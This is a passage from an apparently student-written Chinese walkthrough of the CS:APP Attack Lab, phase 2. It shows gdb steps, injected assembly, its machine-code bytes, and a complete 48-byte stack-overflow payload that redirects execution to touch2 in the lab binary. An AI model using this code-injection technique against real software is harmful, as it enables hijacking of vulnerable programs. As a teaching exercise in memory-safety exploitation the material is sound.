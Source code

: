 1. 首先是查找`touch2`的地址：

   <img src="https://raw.githubusercontent.com/BoL0150/image2/master/image-20210721224652272.png" alt="image-20210721224652272" style="zoom: 67%;" />

   `0x00000000004017ec`即为`touch2` 第一条指令的地址

2. 然后再查出缓冲区的开始位置，也就是`getbuf`中`%rsp`所在的位置。所以我们必须要对源程序进行调试。

   1. 想要显示源代码，首先在`getbuf`函数处打断点，再执行程序。

      ```
      info break		显示所有断点的信息
      break getbuf 	在getbuf函数处打断点
      ```

      ![image-20210721233444751](https://raw.githubusercontent.com/BoL0150/image2/master/image-20210721233444751.png)

   2. 输出%rsp的值

      ![image-20210722092848540](https://raw.githubusercontent.com/BoL0150/image2/master/image-20210722092848540.png)

3. 我们此时就可以写注入的代码了：

   ```assembly
   mov $0x59b997fa,%edi
   pushq $0x00000000004017ec
   ret
   ```

   由于这个过程中没有使用栈保存寄存器或局部变量，ret不需要增加%rsp的值，直接将栈顶的值pop到%rip中，程序跳转到`touch2`。

4. 将上面的汇编代码保存为`p2.s`，使用`gcc -c p2.s`将它编译为字节码文件`p2.o`，再使用 `objdump -d p2.o`检查它的反汇编代码。

   ![image-20210722091137259](https://raw.githubusercontent.com/BoL0150/image2/master/image-20210722091137259.png)

5. 所以我们要注入的可执行机器码为

   ```
   bf fa 97 b9 59 68 ec 17 40 00 c3
   ```

   一共11个字节，缓冲区的大小为40个字节，还需填充29个字节，最后还需要加上缓冲区的起始地址 `0x5561dc78`

   所以我们最终的输入的字节码为：

   ```
   bf fa 97 b9 59 68 ec 17
   40 00 c3 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   78 dc 61 55 00 00 00 00
   ```
   
   将上面的字节码转换为字符串再输入。
   
   ![image-20210722093044939](https://raw.githubusercontent.com/BoL0150/image2/master/image-20210722093044939.png)

## ctarget_phase3
